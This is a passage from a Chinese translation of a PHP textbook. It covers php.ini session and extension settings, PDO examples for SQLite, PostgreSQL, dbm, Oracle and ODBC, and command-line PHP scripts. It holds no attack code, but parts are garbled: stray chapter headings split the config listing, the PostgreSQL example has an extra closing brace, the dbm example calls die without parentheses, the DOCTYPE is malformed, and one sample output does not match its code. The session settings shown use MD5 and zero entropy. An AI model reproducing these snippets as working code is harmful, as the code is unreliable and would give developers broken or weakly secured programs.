; 生产值：Off
; http://php.net/session.bug-compat-42
session.bug_compat_42 = On

; 此设置控制在将会话值初始化到全局空间时是否由 PHP 向你发出警告。
; session.bug_compat_42 必须在发出这些警告之前启用。
; 这些警告才能由 PHP 发出。请参阅上面的指令以了解更多
; 信息。
; 默认值：On
; 开发值：On
; 生产值：Off
; http://php.net/session.bug-compat-warn
session.bug_compat_warn = On

; 检查 HTTP Referer 以使包含 ID 的外部存储 URL 失效。
; HTTP_REFERER 必须包含此子字符串，会话才被视为
; 有效。
; http://php.net/session.referer-check
session.referer_check =

; 从文件中读取的字节数。
; http://php.net/session.entropy-length
session.entropy_length = 0

; 在此处指定以创建会话 ID。
; http://php.net/session.entropy-file
;session.entropy_file = /dev/urandom
session.entropy_file =

; http://php.net/session.entropy-length


## 附录 B：配置 PHP

```
;session.entropy_length = 16
```

```
; 设置为 {nocache,private,public,} 以确定 HTTP 缓存方面
; 或者留空以避免发送反缓存头。
; http://php.net/session.cache-limiter
session.cache_limiter = nocache
```

```
; 文档在 n 分钟后过期。
; http://php.net/session.cache-expire
session.cache_expire = 180
```

```
; trans sid 支持默认禁用。
; 使用 trans sid 可能会危及用户的安全。
; 请谨慎使用此选项。
; - 用户可能会发送包含活动会话 ID 的 URL
; - 通过电子邮件/IRC 等发送给其他人
; - 包含活动会话 ID 的 URL 可能会被存储
; 在公共可访问的计算机上。
; - 用户可能会使用相同的会话 ID 访问您的网站
; 始终使用浏览器历史记录或书签中存储的 URL。
; http://php.net/session.use-trans-sid
session.use_trans_sid = 0
```

```
; 选择用于生成会话 ID 的哈希函数。
; 可能的值
; 0 (MD5 128 位)
; 1 (SHA-1 160 位)
; http://php.net/session.hash-function
session.hash_function = 0
```

```
; 定义在将二进制哈希数据转换为可读形式时，
; 每个字符中存储的位数。
; 可能的值：
; 4 (4 位：0-9, a-f)
; 5 (5 位：0-9, a-v)
; 6 (6 位：0-9, a-z, A-Z, "-", ",")
; 默认值：4
; 开发值：5
; 生产值：5
; http://php.net/session.hash-bits-per-character
session.hash_bits_per_character = 5
```

```
; URL 重写器将在定义好的一组 HTML 标签中查找 URL。
; form/fieldset 是特殊的；如果您在此处包含它们，重写器将
; 添加一个带有信息的隐藏 <input> 字段，该信息原本会附加
; 到 URL。如果您需要 XHTML 符合性，请删除 form 条目。
; 请注意，所有有效条目都需要一个 "="，即使后面没有值。
; 默认值："a=href,area=href,frame=src,form=,fieldset="
; 开发值："a=href,area=href,frame=src,input=src,form=fakeentry"
; 生产值："a=href,area=href,frame=src,input=src,form=fakeentry"
; http://php.net/url-rewriter.tags
url_rewriter.tags = "a=href,area=href,frame=src,input=src,form=fakeentry"
```

### [MSSQL]

```
; 允许或禁止持久链接。
mssql.allow_persistent = On

; 持久链接的最大数量。-1 表示无限制。
mssql.max_persistent = -1

; 链接的最大数量（持久+非持久）。-1 表示无限制。
mssql.max_links = -1

; 要显示的最小错误严重级别。
mssql.min_error_severity = 10

; 要显示的最小消息严重级别。
mssql.min_message_severity = 10

; 与旧版本 PHP 3.0 的兼容模式。
mssql.compatibility_mode = Off

; 连接超时
;mssql.connect_timeout = 5

; 查询超时
;mssql.timeout = 60

; 有效范围 0 - 2147483647。默认值 = 4096。
;mssql.textlimit = 4096

; 有效范围 0 - 2147483647。默认值 = 4096。
;mssql.textsize = 4096

; 限制每批中的记录数量。0 = 所有记录在一批中。
;mssql.batchsize = 0

; 指定如何返回 datetime 和 datetim4 列
; On => 返回转换为 SQL 服务器设置的数据
; Off => 以 YYYY-MM-DD hh:mm:ss 形式返回值
;mssql.datetimeconvert = On

; 连接到服务器时使用 NT 身份验证
mssql.secure_connection = Off

; 指定进程的最大数量。-1 = 库默认值
; msslib 默认为 25
; FreeTDS 默认为 4096
;mssql.max_procs = -1

; 指定客户端字符集。
; 如果为空或未设置，则使用 freetds.conf 中的客户端字符集
; 仅在使用 FreeTDS 编译时使用
;mssql.charset = "ISO-8859-1"
```

### [Assertion]

```
; Assert(expr)；默认处于活动状态。
; http://php.net/assert.active

;assert.active = On

; 对每个失败的断言发出 PHP 警告。
; http://php.net/assert.warning
;assert.warning = On

; 默认情况下不要中止。
; http://php.net/assert.bail
;assert.bail = Off

; 断言失败时要调用的用户函数。
; http://php.net/assert.callback
;assert.callback = 0

; 使用当前的 error_reporting() 对表达式求值。如果希望
; 在 eval() 周围使用 error_reporting(0)，请设置为 true。
; http://php.net/assert.quiet-eval
;assert.quiet_eval = 0
```

### [COM]

```
; 包含 GUID、IID 或带有 TypeLib 的文件名的文件路径
; http://php.net/com.typelib-file
;com.typelib_file =

; 允许分布式 COM 调用
; http://php.net/com.allow_dcom
;com.allow_dcom = true

; 在 com_load() 时自动注册组件类型库的常量
; http://php.net/com.autoregister-typelib
;com.autoregister_typelib = true

; 注册区分大小写的常量
; http://php.net/com.autoregister-casesensitive
;com.autoregister_casesensitive = false

; 在重复常量注册时显示警告
; http://php.net/com.autoregister-verbose
;com.autoregister_verbose = true

; 向 COM 对象传递字符串时使用的默认字符集代码页。
; 默认值：系统 ANSI 代码页
;com.code_page=
```

### [mbstring]

```
; 用于内部字符表示的语言。
; http://php.net/mbstring.language
;mbstring.language = Japanese

; 内部/脚本编码。
; 某些编码不能用作内部编码。
; (例如 SJIS, BIG5, ISO-2022-*)
; http://php.net/mbstring.internal-encoding

;mbstring.internal_encoding = EUC-JP

; HTTP 输入编码。
; http://php.net/mbstring.http-input
;mbstring.http_input = auto
```

```
; HTTP 输出编码。mb_output_handler 必须
; 注册为输出缓冲区才能工作
; http://php.net/mbstring.http-output
;mbstring.http_output = SJIS
```

```
; 根据 mbstring.internal_encoding 设置启用自动编码转换。
; 输入字符通过将此项设置为 On 转换为内部编码。
; 注意：不要为可移植库/应用程序使用自动编码转换。
; http://php.net/mbstring.encoding-translation
;mbstring.encoding_translation = Off
```

```
; 自动编码检测顺序。
; auto 表示
; http://php.net/mbstring.detect-order
;mbstring.detect_order = auto
```

```
; 当字符无法相互转换时使用的替代字符
; http://php.net/mbstring.substitute-character
;mbstring.substitute_character = none;
```

```
; 用 mbstring 函数重载（替换）单字节函数。
; mail()、ereg() 等分别被 mb_send_mail()、mb_ereg() 等重载，
; 可能的值为 0、1、2、4 或它们的组合。
; 例如，7 表示重载所有内容。
; 0：无重载
; 1：重载 mail() 函数
; 2：重载 str*() 函数
; 4：重载 ereg*() 函数
; http://php.net/mbstring.func-overload
;mbstring.func_overload = 0
```

```
; 启用严格编码检测。
;mbstring.strict_detection = Off
```

```
; 此指令指定 mb_output_handler() 被激活的内容类型的正则表达式模式。
; 默认值：mbstring.http_output_conv_mimetype=^(text/|application/xhtml+xml)
;mbstring.http_output_conv_mimetype=
```

```
; 允许设置脚本编码。仅在使用 --enable-zend-multibyte 编译 PHP 时有效
; 默认值：""
;mbstring.script_encoding=
```

### [gd]

```
; 告诉 JPEG 解码器忽略警告并尝试创建
; GD 图像。警告随后会显示为通知
; 默认情况下禁用
; http://php.net/gd.jpeg-ignore-warning
;gd.jpeg_ignore_warning = 0
```

### [exif]

```
; Exif UNICODE 用户注释将作为 UCS-2BE/UCS-2LE 处理，JIS 作为 JIS 处理。
; 在 mbstring 支持下，这将自动转换为
; 相应编码设置给出的编码。为空时使用 mbstring.internal_encoding。
; 对于解码设置，可以区分摩托罗拉和
; 英特尔字节序。解码设置不能为空。
; http://php.net/exif.encode-unicode
;exif.encode_unicode = ISO-8859-15

; http://php.net/exif.decode-unicode-motorola
;exif.decode_unicode_motorola = UCS-2BE

; http://php.net/exif.decode-unicode-intel
;exif.decode_unicode_intel = UCS-2LE

; http://php.net/exif.encode-jis
;exif.encode_jis =

; http://php.net/exif.decode-jis-motorola
;exif.decode_jis_motorola = JIS

; http://php.net/exif.decode-jis-intel
;exif.decode_jis_intel = JIS
```

### [Tidy]

```
; 使用 tidy 时要使用的默认 tidy 配置文件路径
; http://php.net/tidy.default-config
;tidy.default_config = /usr/local/lib/php/default.tcfg

; Tidy 是否应自动清理和修复输出？
; 警告：如果您正在生成非 HTML 内容
; 例如动态图像，请勿使用此选项
; http://php.net/tidy.clean-output
tidy.clean_output = Off
```

### [soap]

```
; 启用或禁用 WSDL 缓存功能。
; http://php.net/soap.wsdl-cache-enabled
soap.wsdl_cache_enabled=1

; 设置 SOAP 扩展将缓存文件放入的目录名称。
; http://php.net/soap.wsdl-cache-dir
soap.wsdl_cache_dir="/tmp"

; (生存时间) 设置缓存文件将被使用的秒数
; 而不是原始文件。
; http://php.net/soap.wsdl-cache-ttl
```


## 附录 B：配置 PHP

soap.wsdl_cache_ttl=86400

; 设置缓存大小限制。（要缓存的 WSDL 文件最大数量）
soap.wsdl_cache_limit = 5

[sysvshm]
; 共享内存段的默认大小
;sysvshm.init_mem = 10000

[ldap]
; 设置打开链接的最大数量，或 -1 表示无限。
ldap.max_links = -1

[mcrypt]
; 有关 mcrypt 设置的更多信息，请参阅 http://php.net/mcrypt-module-open

; 加载 mcrypt 算法的目录
; 默认：编译到 libmcrypt 中（通常为 /usr/local/lib/libmcrypt）
;mcrypt.algorithms_dir=

; 加载 mcrypt 模式的目录
; 默认：编译到 libmcrypt 中（通常为 /usr/local/lib/libmcrypt）
;mcrypt.modes_dir=

[dba]
;dba.default_handler=

; 本地变量：
; tab-width: 4
; 结束：


## MySQL 的替代方案

在第 12 至 14 章中，你学习了如何在 PHP 应用程序内访问 MySQL 数据库。如果你正在编写 PHP 脚本，MySQL 通常是一个不错的选择，因为它可免费获得，跨平台，并且在大多数支持 PHP 的 Web 服务器上默认安装。

然而，MySQL 并非适合所有人，在某些场景下，使用替代数据库引擎更可取。本附录简要介绍了市场上一些更流行的替代方案。其中大多数可以与第 12 至 14 章中描述的 PDO 扩展一起使用，因此如果你想尝试不同的数据库引擎，那些章节中的大多数内容和示例仍然适用。

### SQLite

如果你询问普通开发者当今使用最广泛的 SQL 数据库引擎是什么，他们可能会想到 MySQL、Oracle 或 SQL Server。事实上，答案很可能是 SQLite（有关详细信息，请参阅 `http://www.sqlite.org/mostdeployed.html`）。造成这种情况的原因（除了它非常出色之外）是它是一个嵌入式数据库引擎。这意味着它被捆绑在每个使用它的应用程序的每个副本中，从 Firefox 到 Skype 以及包括 Symbian 和 iPhone 在内的各种移动平台。相比之下，MySQL 由一个独立的服务器应用程序组成，以及用于与服务器通信的客户端库。

关于 SQLite 的另一个好处是，其代码属于公有领域，这意味着任何人都可以按需使用和修改代码。

如今，SQLite 已随 PHP 引擎一起捆绑，这意味着你无需安装任何额外内容即可开始使用它。它非常快，支持几乎所有标准 SQL 命令，并且有一些相当特殊的绝招。它也相对简单（因为它没有客户端-服务器架构）且非常可靠。简而言之，它值得一试。

以下是 SQLite 的一些其他特点，使其脱颖而出：

- 它是动态类型的：同一个字段可以在不同记录之间存储不同的数据类型。这与 PHP 的弱类型很契合，并为你提供了很大的灵活性。（不过，这可能使维护数据库完整性变得更加困难，并且它与其他 SQL 数据库系统不兼容。）
- 数据库存储在单个跨平台数据库文件中：这使得备份 SQLite 数据库以及将其移植到不同操作系统变得容易。
- 它易于配置：无需安装、启动或配置单独的应用程序，并且在使用前无需创建用户或为数据库分配权限。
- 你可以在 SQL 查询中调用 PHP 函数：这是 SQLite 最令人印象深刻的功能之一，之所以可行，是因为 SQLite 引擎嵌入在 PHP 中。（参见本节稍后的示例。）

一般而言，如果你需要为 Web 应用程序选择一个快速、轻量级的数据库引擎，SQLite 值得一看。但是，如果你需要用于非常复杂的查询、非常大量的数据或高流量 Web 网站的“工业”级数据库，你可能需要寻找其他方案。

> 有关何时（以及何时不）使用 SQLite 的详细讨论，请参阅 http://www.sqlite.org/whentouse.html

撰写本文时，SQLite 的最新版本是 3 版。你的 PHP 脚本可以通过 SQLite3 扩展（请参阅 http://www.php.net/manual/en/book.sqlite3.php）或通过 PDO（请参阅 http://www.php.net/manual/en/ref.pdo-sqlite.php）与 SQLite 3 通信。

下面是一个简单的示例，演示如何使用 PDO 创建 SQLite 数据库和表，向表中插入一条记录，并检索该记录（同时从 SQL 内部调用 PHP str_word_count() 函数）：

```
<?php
$dsn = "sqlite:/home/matt/proverbs.sqlite3";
// Create a connection to the database
// (database file is automatically created)
try {
    $conn = new PDO( $dsn );
    $conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
} catch ( PDOException $e ) {
    echo "Connection failed: " . $e->getMessage();
}
// Create a new SQLite function based on the PHP str_word_count() function
$conn->sqliteCreateFunction( "wordCount", "str_word_count", 1 );
```

```
// Create the proverbs table
// (columns of type INTEGER PRIMARY KEY serve as auto-increment columns)
$sql = "DROP TABLE IF EXISTS proverbs";
$conn->exec( $sql );
$sql = "CREATE TABLE proverbs ( id INTEGER PRIMARY KEY, proverbText )";
$conn->exec( $sql );

// Add a proverb
$sql = "INSERT INTO proverbs ( proverbText ) VALUES ( :proverbText )";
$st = $conn->prepare( $sql );
$st->bindValue( ":proverbText", "A bird in the hand is worth two in the bush" );
$st->execute();

// Retrieve the proverb and its word count, and display the results
$sql = "SELECT id, proverbText, wordCount( proverbText ) AS numWords FROM proverbs";
$st = $conn->query( $sql );
$proverb = $st->fetch();
echo "ID: " . $proverb["id"] . "<br />";
echo "Proverb: " . $proverb["proverbText"] . "<br />";
echo "Word count: " . $proverb["numWords"]. "<br />";

?>
```

此脚本显示以下内容：

```
ID: 1
Proverb: A bird in the hand is worth two in the bush
Word count: 11
```

### PostgreSQL

PostgreSQL（http://www.postgresql.org/）是一个免费、开源且符合标准的数据库引擎。PHP 允许你通过原生扩展（http://www.php.net/manual/en/book.pgsql.php）与 PostgreSQL 数据库通信，该扩展的工作方式与其 MySQL 对应物非常相似，或者通过 PDO（http://www.php.net/manual/en/ref.pdo-pgsql.php）

在 PHP 支持的所有数据库引擎中，PostgreSQL 可能是 MySQL 最接近的竞争对手。两者都是开源且免费的；两者提供大致相同的性能和可扩展性；两者在 Web 开发者中都拥有强大的追随者。

事实上，这种接近性经常导致“圣战”，双方系统的支持者会争论哪个更好。从历史上看，MySQL 被认为更易于使用且更快，而 PostgreSQL 则以功能更丰富、更强大、更可靠而闻名（如果你愿意，可以将其视为 Oracle 的开源替代品）。

# 附录 C：MySQL 的替代方案

然而，如今两个系统之间的差异已经很小了，因为 MySQL 变得更加功能丰富和稳定，而 PostgreSQL 变得更易于使用。撰写本文时，对 MySQL 的主要批评可能是它在防止数据丢失方面不够严格（例如，允许你插入无效的 `DATETIME` 值并悄悄将其转换为零），而 PostgreSQL 缺乏内置复制（尽管可以作为插件添加），并且安装在的 Web 托管账户不如 MySQL 多。但是，等你读到这篇文章时，两者之间的差距无疑会进一步缩小。

事实是，作为 Web 开发者，你最初选择哪个系统可能并不重要。如果你使用 PDO 连接数据库，并且没有使用任何一个引擎的一些更深奥的功能，你通常会发现将应用程序从 MySQL 移植到 PostgreSQL，或反之亦然，相当简单。

你可以在 http://www.wikivs.com/wiki/MySQL_vs_PostgreSQL 上找到关于 MySQL 和 PostgreSQL 相对优缺点的详细讨论。

以下是第 12 章中 get_fruit.php 脚本的重写版本，用于使用 PostgreSQL 而非 MySQL。如你所见，所需的更改很小：

```
<!DOCTYPE html PUBLIC "--//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Fruit</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Fruit</h1>
<?php
$dsn = "pgsql:host=localhost;dbname=mydatabase";
$username = "postgres";
$password = "mypass";
try {
$conn = new PDO( $dsn, $username, $password );
$conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
} catch ( PDOException $e ) {
echo "Connection failed: " . $e->getMessage();
}

$sql = "SELECT * FROM fruit";
echo "<ul>";
try {
$rows = $conn->query( $sql );
foreach ( $rows as $row ) {
echo "<li>A " . $row["name"] . " is " . $row["color"] . "</li>";
}
}


} catch ( PDOException $e ) {
    echo "Query failed: " . $e->getMessage();
}

echo "</ul>";
$conn = null;
?>
</body>
</html>

## dbm 风格数据库

dbm 是一种于 1979 年编写的旧式嵌入式数据库引擎。与 SQLite 类似，该引擎嵌入在使用它的程序中（在此例中为 PHP 引擎），并将其数据存储在服务器硬盘的文件中。它不如 SQLite（或其他基于 SQL 的数据库引擎）强大，也不使用 SQL 来存储和检索数据。然而，它是按键检索记录的一种极快方式，并且和 SQLite 一样，无需设置或管理。

dbm 当前已不太常用，但多年来催生了多个后继产品，其中 Oracle 的 Berkeley DB（http://www.oracle.com/technology/products/berkeley-db/index.html）可能是最流行的。

PHP 通过 DBA 抽象层提供对 dbm 风格数据库的访问，你可以将其视为“dbm 数据库的 PDO”。但是，由于 DBA 扩展未随 PHP 默认安装包捆绑，你可能需要重新编译 PHP 以包含它。有关如何执行此操作的详细信息，请参阅 http://www.lampdocs.com/blog/2008/04/17/adding-dba-support-to-php/。

本示例展示了如何打开 db4 数据库（Berkeley DB 的当前版本）、创建一条记录（“The MegaWidget”），并通过查找其键（123）来读取该记录：

```
<?php

$conn = dba_open( "/home/joe/products.db", "n", "db4" );

if ( !$conn ) {
    die "Couldn't open database";
}

dba_replace( 123, "The MegaWidget", $conn );

if ( dba_exists( 123, $conn ) ) {
    echo dba_fetch( 123, $conn ); // displays "The MegaWidget"
}

dba_close( $conn );

?>
```

## Oracle

Oracle（http://www.oracle.com/database/）是一款庞大、复杂且强大的关系型数据库管理系统（RDBMS）。与 MySQL 等类似，Oracle 允许你使用 SQL 来操作数据。Oracle 通常被大型组织用于存储和管理大量数据，例如客户或财务记录。出于这些原因，使用它的成本较高（尽管提供免费版 Oracle XE），且理想情况下需要一位经验丰富的 Oracle 数据库管理员来设置和运行该系统。

话虽如此，将 Oracle 与 Web 应用程序配合使用是完全可行的，PHP 通过其 OCI8 扩展和 PDO 两种方式提供对 Oracle 连接的支持。如果你正在编写需要与现有 Oracle 设置交互的网站或应用程序，这将非常有用。

使用 PDO 与 Oracle 数据库通信在根本上与使用 MySQL 类似。以下是一个示例：

```
<?php

/*
To run this code, the database "mydatabase" needs to exist,
and be accessible with the username "myusername" and password
"mypassword". There should also be a "products" table created
with:

CREATE TABLE products ( id NUMBER, productname VARCHAR2(50) );
*/

$username = "myusername";
$password = "mypassword";

// Open connection to Oracle database
try {
    $conn = new PDO ( "oci:dbname=mydatabase", $username, $password );
    $conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
} catch ( PDOException $e ) {
    echo "Connection failed: " . $e->getMessage();
}

// Add a product
$sql = "INSERT INTO products ( id, productname ) VALUES ( :id, :productname )";
$st = $conn->prepare( $sql );
$st->bindValue( ":id", 123, PDO::PARAM_INT );
$st->bindValue( ":productname", "WonderWidget", PDO::PARAM_STR );
$st->execute();

// Retrieve the product
$sql = "SELECT * FROM products WHERE id=:id";
$st->bindValue( ":id", 123, PDO::PARAM_INT );
$st->execute();
$product = $st->fetch();

// Displays "WonderWidget"
echo "Product name: " . $product["productname"] . "<br />";

?>
```

## ODBC

ODBC（Open Database Connectivity）本身并非数据库引擎，而是一种应用程序编程接口（API）。它允许应用程序与各种数据库引擎进行通信，而无需应用程序或数据库引擎对彼此有深入了解。通信通过安装在数据库服务器机器上的驱动程序管理器服务进行。应用程序向驱动程序管理器发出请求，然后驱动程序管理器使用适当的 ODBC 驱动程序将请求传递给数据库引擎。

ODBC 通常用于与 Microsoft 的 Access 和 SQL Server 数据库引擎以及 IBM 的 DB2 数据库进行通信。Access 易于使用、价格实惠，适合简单的数据库；然而，它的扩展性不佳，因此不建议用于小型低流量 Web 应用程序以外的任何场景。SQL Server 是一种强大的 RDBMS，可与 Oracle 媲美（尽管管理起来稍微容易一些），仅适用于 Windows 平台。如果你正在使用 Microsoft 技术，它是一个不错的选择。DB2 也是一种与 Oracle 类似的大型 RDBMS；存在适用于 AIX、Windows、Linux 和 z/OS（IBM 的主机操作系统）的版本。

Microsoft Windows 内置了 ODBC 驱动程序管理器，并且针对其他平台（包括各种 UNIX、Linux 和 Mac OS X 版本）存在多种开源版本的 ODBC。

你可以使用 PHP 的 ODBC 扩展或通过 PDO 连接到 ODBC 数据库。（ODBC 扩展已内置于 Windows 版本的 PHP 中；但是，如果你想将 ODBC 与 PDO 一起使用，则需要编译 PDO_ODBC 扩展。）以下是一个 PDO 示例，它连接到 SQL Server 数据库，向 products 表添加产品，并检索产品名称以供显示：

```
<?php

$dsn = "odbc:driver={SQL Server};server=localhost;database=mydatabase";
$username = "myusername";
$password = "mypassword";

// Open connection to SQL Server database
try {
    $conn = new PDO( $dsn, $username, $password );
    $conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
} catch ( PDOException $e ) {
    echo "Connection failed: " . $e->getMessage();
}

// Add a product
$sql = "INSERT INTO products ( id, productname ) VALUES ( :id, :productname )";
$st = $conn->prepare( $sql );
$st->bindValue( ":id", 123, PDO::PARAM_INT );
$st->bindValue( ":productname", "WonderWidget", PDO::PARAM_STR );
$st->execute();

// Retrieve the product
$sql = "SELECT * FROM products WHERE id=:id";
$st->bindValue( ":id", 123, PDO::PARAM_INT );
$st->execute();
$product = $st->fetch();

// Displays "WonderWidget"
echo "Product name: " . $product["productname"] . "<br />";

?>
```

## PHP 支持的其他数据库

得益于大量可用的扩展，PHP 可以与许多其他数据库引擎进行通信——有些广为人知，有些则相当冷门——例如 dBase、Firebird、Informix、Ingres、mSQL、Paradox 和 Sybase。你可以在 http://www.php.net/manual/en/refs.database.php 查看完整列表。

此外，PDO 支持相当多的数据库系统。除了本附录中已经提到的系统之外，你还可以使用 PDO 与 Firebird 和 Informix 数据库进行通信。因此，你应该不会遇到任何问题，就能让你的 PHP 应用程序与当前市场上几乎任何流行的数据库引擎协同工作。


# 从命令行使用 PHP

虽然 PHP 脚本通常通过 Web 服务器运行——无论是通过 Apache 或 IIS 模块，还是使用 PHP 的 CGI 版本——但也可以在命令行模式下运行 PHP 引擎。这样你就可以创建独立的 PHP 脚本，可以直接从命令行运行，或通过双击图标运行。这意味着你可以构建以下脚本：

- 可以在任何安装了 PHP 的计算机上运行，无需 Web 服务器
- 可以安排在一天或一周中的特定时间自动运行
- 可以具有 GUI（图形用户界面），类似于常规 Windows、Mac 或 Linux GUI 应用程序
- 可以由其他 PHP 脚本或应用程序调用以执行特定任务

如果你习惯使用其他命令行脚本语言（如 Perl、Tcl 或 Bash），则 PHP 在命令行模式下的工作方式类似。

在大多数类 UNIX 系统（包括 Ubuntu 和 Mac OS X）上，你可以通过在 shell 提示符处键入 `php` 来运行命令行版本的 PHP。例如，键入 `php -v` 以显示版本信息：

```
$ php -v
PHP 5.3.0 (cli) (built: Jun 29 2009 21:25:23)
Copyright (c) 1997-2009 The PHP Group
Zend Engine v2.3.0, Copyright (c) 1998-2009 Zend Technologies
```

要在已安装 MAMP 的 Mac OS X 上运行 MAMP 特定版本的 PHP（而不是内置的 Mac OS X 版 PHP），你需要指定 PHP 可执行文件的完整路径（例如 `/Applications/MAMP/bin/php5/bin/php -v`）或将 `/Applications/MAMP/bin/php5/bin` 文件夹添加到你的路径中。


在 Windows 中，命令行 PHP 称为 php.exe，位于 PHP 二进制文件夹中。例如，如果您使用 WampServer，您会在 c:\wamp\bin\php\phpX.x.x 中找到它：

```
C:\>c:\wamp\bin\php\php5.3.0\php.exe -v
PHP 5.3.0 (cli) (built: Jun 29 2009 21:25:23)
Copyright (c) 1997-2009 The PHP Group
Zend Engine v2.3.0, Copyright (c) 1998-2009 Zend Technologies
```

## 运行命令行 PHP 脚本

您可以通过几种不同的方式使用命令行 PHP 引擎运行脚本。最简单的方法是将脚本路径作为参数传递给 PHP 引擎：

```
$ php myscript.php
```

不过，每次运行脚本都在前面加上 php 会显得很麻烦。更优雅的解决方案是在 Mac OS X 和 Ubuntu 上使用 shebang 行，或在 Windows 上创建批处理文件。

Shebang 行是放在脚本顶部的一行，用于告诉计算机在哪里找到 PHP 引擎。示例如下：

```
#!/usr/bin/php
<?php
echo "Hello, world!\n";
?>
```

在这里，shebang 行告诉 Ubuntu 使用程序 /usr/bin/php 来解释和运行脚本。

> 请注意，即使运行命令行 PHP 脚本，您仍然需要用 <?php ... ?> 标签将 PHP 代码包围。

然后，您可以通过将脚本设为可执行，并只输入脚本文件路径（如果脚本在当前目录中，则输入 ./ 后跟脚本文件名）来运行它：

```
$ chmod u+x hello.php
$ ./hello.php
Hello, world!
$
```

> chmod 是一个 UNIX 命令，用于设置文件或文件夹的模式（即访问权限）。有关 chmod 的更多信息，请参见第 11 章。

这在类 UNIX 系统上效果很好，但 Windows 没有 shebang 行的概念。在 Windows 机器上，最好的方法是创建一个运行脚本的批处理文件。例如，假设您将以下 PHP 脚本另存为 hello.php：

```
<?php
echo "Hello, world!\n";
?>
```

在同一文件夹中创建一个名为 hello.bat 的批处理文件，如下所示（将 php.exe 的路径更改为与您的系统相匹配）：

```
@c:\wamp\bin\php\php5.3.0\php.exe %~n0.php %*
```

这个简单的批处理文件运行 PHP 命令行引擎，将批处理文件的名称（.bat 扩展名更改为 .php，即 hello.php）传递给它。它还将命令行中传递的任何额外参数传递给 PHP 脚本（关于命令行参数的更多内容，稍后介绍）。

现在您只需切换到包含批处理文件和脚本的文件夹，然后运行批处理文件：

```
C:\>hello
Hello, world!
C:\>
```

请注意，您可以只输入 hello，而不是 hello.bat。Windows 会在当前文件夹中查找同名的 .bat 文件。

### 向命令行脚本传递参数

当应用程序能够接受用户输入并据此采取行动时，它们会更加灵活。当您想要将用户输入传递给 PHP Web 应用程序时，可以使用 $_GET 和 $_POST 读取 URL 查询字符串和 Web 表单中发送的数据。但是，当您的脚本在命令行上运行时，不存在查询字符串和表单这些东西。

相反，您可以在命令行上向脚本传递参数。示例如下：

```
./hello.php --name=Matt --pet=Rover
```

在这个示例中，两个参数被传递给脚本：name（值为 "Matt"）和 pet（值为 "Rover"）。这相当于在查询字符串中传递 ?name=Matt&pet=Rover 的命令行形式。

您的 PHP 脚本如何读取这些参数？答案在于预定义变量 $argv 和 $argc。$argv 数组包含传递给脚本的所有参数列表，$argc 变量包含传递的参数数量（即 $argv 数组的长度）。因此，您的 hello.php 脚本可以简单地显示 $argc 和 $argv 的内容，如下所示：

```
#!/usr/bin/php
<?php
echo "Number of arguments: $argc\n";
echo "Argument list:\n\n";
print_r( $argv );
?>
```

现在您可以测试脚本：

```
$ ./hello.php --name=Matt --pet=Rover
Number of arguments: 3

Argument list:

Array
(
    [0] => ./hello.php
    [1] => --name=Matt
    [2] => --pet=Rover
)
```

这里有几点需要注意。首先，第一个“参数”（$argv[0]）始终是脚本本身的名称。其次，PHP 不会尝试将参数名称与参数值分开。确实，“--”和 "=" 字符只是约定；就 PHP 引擎而言，命令行参数是脚本名称之后的所有内容，每个参数之间用空格分隔。

这是一个增强版的 hello.php 脚本。该脚本遍历 $argv，将参数名称与参数值分开，从参数名称中删除开头的“--”，并将结果值存储在以参数名称为键的 $arguments 数组中。然后，它查询 $arguments 数组以向用户显示输出：

```
#!/usr/bin/php
<?php
$arguments = array();

foreach ( $argv as $arg ) {
    list( $argName, $argValue ) = split( "=", $arg );
    $argName = preg_replace( "/^--/", "", $argName );
    $arguments[$argName] = $argValue;
}

echo "Hello, " . $arguments["name"] . "!\n";
echo "Your pet is called " . $arguments["pet"] . "\n";
?>
```

运行该脚本后的输出如下：

```
$ ./hello.php --name=Matt --pet=Rover
Hello, Matt! Your pet is called Rover.
```

### 创建交互式脚本

由于没有 Web 表单控件可供用户交互，命令行脚本仅限于提示用户输入（除非脚本具有 GUI）。幸运的是，提示并读取输入很容易。在命令行中运行 PHP 脚本时，PHP 引擎会自动为您打开三个标准流：

- stdin 用于读取用户输入。PHP 以常量 STDIN 的形式为您提供打开的 stdin 流的句柄。
- stdout 用于将输出发送回 shell（通常会在终端窗口中显示，类似于使用 print 或 echo）。PHP 以常量 STDOUT 的形式为您提供打开的 stdout 流的句柄。
- stderr 用于输出错误消息。与 stdout 类似，它通常默认为终端窗口，但可以被 shell 重定向（例如，到错误日志）。您可以通过句柄 STDERR 访问此打开的流。

因为 STDIN、STDOUT 和 STDERR 是流，您可以像读写文件一样读写它们（有关 PHP 文件处理函数的更多信息，请参见第 11 章）。这是一个简单的示例，它提示用户输入地址和联系信息，然后生成一个适合包含在电子邮件中的签名文件：

```
#!/usr/bin/php
<?php
echo "Welcome to the signature file generator.\n";
echo "Please enter your full name: ";
$name = trim( fgets( STDIN ) );
echo "Please enter your street address: ";
$address = trim( fgets( STDIN ) );
echo "Please enter your city: ";
$city = trim( fgets( STDIN ) );
echo "Please enter your state: ";
$state = trim( fgets( STDIN ) );
echo "Please enter your zip code: ";
$zip = trim( fgets( STDIN ) );
echo "Please enter your phone number: ";
$phone = trim( fgets( STDIN ) );
echo "Please enter your email address: ";
$email = trim( fgets( STDIN ) );
echo "Please enter a name for this signature: ";
$sig = trim( fgets( STDIN ) );
$data = "\n--\n$name\n$address\n$city, $state $zip\n$phone\n$email\n";
$sigfile = fopen( $sig, "w" ) or die( "Could not open file for writing\n" );
fwrite( $sigfile, $data ) or die( "Failed writing data\n" );
fclose( $sigfile );
echo "Your signature file is ready now.\n";
?>
```

# 附录 D：从命令行使用 PHP

示例运行如下：

```
$ .\signature_generator.php
Welcome to the signature file generator.
Please enter your full name: John Brown
Please enter your street address: 1234 Anystreet
Please enter your city: Anywhere
Please enter your state: CA
Please enter your zip code: 95123
Please enter your phone number: 415-123-4567
Please enter your email address: john@example.com
Please enter a name for this signature: normal
Your signature file is ready now.
$ cat normal
--
John Brown
1234 Anystreet
Anywhere, CA 95123
415-123-4567
john@example.com
$
```

